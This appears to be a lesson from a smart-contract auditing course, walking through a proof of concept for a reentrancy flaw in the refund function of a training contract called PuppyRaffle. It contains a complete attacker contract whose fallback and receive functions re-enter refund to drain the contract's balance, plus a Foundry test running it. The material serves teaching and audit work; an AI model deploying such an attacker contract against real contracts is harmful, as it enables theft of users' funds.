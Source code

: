```yaml
---
title: Reentrancy - PoC
---
```


_Follow along with this video:_

---

### Reentrancy in PuppyRaffle

Returning to PuppyRaffle, let's look at how all we've learnt affects this protocol.

A look again at this `refund` function and we see a classic case of reentrancy with an external call being made before updating state.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @Audit: Reentrancy
    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### The PoC

We can start by writing a new test in the protocol's `PuppyRaffle.t.sol` file. We'll have a bunch of players enter the raffle.

```js
function test_reentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

}
```

> **Note:** There _is_ a `playersEntered` modifier we could use, included in this test suite, but we'll choose to be explicit here.

Next we'll create our `ReentrancyAttacker` Contract.

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
}
```

Once deployed, this `attack` function is going to kick off the attack. In order, we're entering the raffle, acquiring our `playerIndex`, and then refunding our `entranceFee`.

This is going to cause our entranceFee to be sent back to our contract ... what happens then?

```js
function _stealMoney() internal {
    if (address(puppyRaffle).balance >= entranceFee) {
        puppyRaffle.refund(attackerIndex);

    }
}

fallback() external payable {
    _stealMoney();
}

receive() external payable {
    _stealMoney();
}
```

Adding these functions to our `ReentrancyAttacker` contract finishes the job. When funds are sent back to our contract, the `fallback` or `receive` functions are called which is going to trigger another `refund` call in our `_stealMoney` function, completing the loop until the `PuppyRaffle` contract is drained!

<details>
<summary> ReentrancyAttacker Contract </summary>

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);

        }
    }
    fallback() external payable {
        _stealMoney();
    }
    receive() external payable {
        _stealMoney();
    }
}
```

</details>
:br

Alright, let's add this logic to our test. First we'll create an instance of the attacker contract and an attacker address, funding it with 1 ether.

```js
ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
address attacker = makeAddr("attacker");
vm.deal(attacker, 1 ether);
```

Next, we'll grab some balances so we're able to log our changes after the attack.

```js
uint256 startingAttackContractBalance = address(attackerContract).balance;
uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
```

We finally call the attack, like so:

```js
vm.prank(attacker);
attackerContract.attack{value: entranceFee}();
```

Then we'll console.log the impact:

```js
console.log("attackerContract balance: ", startingAttackContractBalance);
console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
console.log(
  "ending attackerContract balance: ",
  address(attackerContract).balance
);
console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
```

<details>
<summary>test_reentrancyRefund</summary>

```js
function test_reentrancyRefund() public {
    // users entering raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    // create attack contract and user
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    // noting starting balances
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```

</details>
:br

All we need to do now is run this test with the command `forge test --mt test_reentrancyRefund -vvv` and we should receive...

![reentrancy-poc1](/security-section-4/23-reentrancy-poc/reentrancy-poc1.png)

### Wrap Up

We did it! We've proven the vulnerability through our application of our PoC and we'll absolutely be submitting this as a finding - likely a `High`.

Be very proud of what you've learnt so far, you're now armed to safeguard De-Fi against some of the most prevalent vulnerabilities in Web3.

Let's go back to the code back and continue our recon in the next lesson.
